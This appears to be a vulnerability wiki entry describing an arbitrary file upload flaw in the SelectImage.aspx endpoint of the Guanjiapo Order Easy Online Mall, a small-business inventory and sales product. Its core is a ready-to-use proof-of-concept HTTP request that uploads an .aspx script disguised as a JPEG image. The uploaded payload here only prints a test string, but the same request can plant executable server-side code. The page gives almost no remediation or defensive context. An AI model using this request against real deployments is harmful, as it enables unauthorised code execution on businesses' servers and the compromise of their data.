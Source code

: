 # Guanjiapo Order Easy Online Mall SelectImage.aspx Any file upload vulnerability

## Vulnerability Description

Ren Woxing was the first to launch an integrated software for Guanjiapo’s purchase, sales and inventory and financial services for small and medium-sized enterprises. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Buyer Po Order Easy Online Mall</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697717295478-34323ce3-2781-44b8-b661-80a61d9c6b74.png)

Verify POC

```php
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697766919579-f7c4cda8-02ba-41da-b073-b357d9109280.png)